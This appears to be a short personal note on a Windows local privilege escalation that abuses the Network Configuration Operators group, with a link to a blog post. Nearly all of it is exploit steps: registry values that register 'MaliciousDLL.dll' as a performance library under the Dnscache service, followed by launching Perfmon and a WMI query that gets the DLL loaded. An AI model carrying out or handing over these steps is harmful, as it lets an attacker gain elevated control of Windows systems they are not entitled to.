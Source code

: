 ```yaml
---
title: Flaw in The “Network Configuration Operators” group
updated: 2025-05-08 07:27:20Z
created: 2025-05-08 07:08:32Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


https://birkep.github.io/posts/Windows-LPE/
* * *
1. Register the performance monitoring routine by creting following 4 registry subkeys under: **HKLM\SYSTEM\CurrentControlSet\Services\Dnscache\Performance**

**Library** (Name of your performance DLL)
**Open** (Name of your Open function in your DLL)
**Collect** (Name of your Collect function in your DLL)
**Close** (Name of your Close function in your DLL)

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Dnscache\Performance\
Name: Library
Type: REG_SZ
Data: "C:\Users\Public\MaliciousDLL.dll"

Name: Open
Type: REG_SZ
Data: OpenPerfData

Name: Collect
Type: REG_SZ
Data: CollectPerfData

Name: Close
Type: REG_SZ
Data: ClosePerfData
```


2. Launch **Perfmon.exe**
3.  Query the Performance Counters with WMI as a the Consumer:
`Get-WmiObject -List | Where-Object { $_.Name -Like "Win32_Perf*" }`